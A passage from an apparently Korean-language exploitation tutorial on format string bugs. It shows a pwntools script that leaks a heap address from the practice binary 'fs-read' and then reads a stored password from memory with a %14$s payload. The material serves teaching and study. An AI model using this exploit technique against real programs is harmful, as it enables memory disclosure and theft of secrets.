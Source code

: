 ```python
p.sendline(payload)
output = p.clean()
print(output.decode("utf-8"))
p.close()
```
그리고 사용된 패싱으로 **try 14**에서 주소를 제어할 수 있음을 확인할 수 있습니다:

<figure><img src="broken-reference" alt="" width="563"><figcaption></figcaption></figure>

### Exploit
```python
from pwn import *

p = process("./fs-read")

def leak_heap(p):
# At offset 25 there is a heap leak
p.sendlineafter(b"first password:", b"%25$p")
p.recvline()
response = p.recvline().strip()[2:] #Remove new line and "0x" prefix
return int(response, 16)

heap_leak_addr = leak_heap(p)
print(f"Leaked heap: {hex(heap_leak_addr)}")

# Offset calculated from the leaked position to the possition of the pass in memory
password_addr = heap_leak_addr + 0x1f7bc

print(f"Calculated address is: {hex(password_addr)}")

# At offset 14 we can control the addres, so use %s to read the string from that address
payload = f"%14$s|||".encode()
payload += p64(password_addr)

p.sendline(payload)
output = p.clean()
print(output)
p.close()
```
<figure><img src="broken-reference" alt="" width="563"><figcaption></figcaption></figure>

{% hint style="success" %}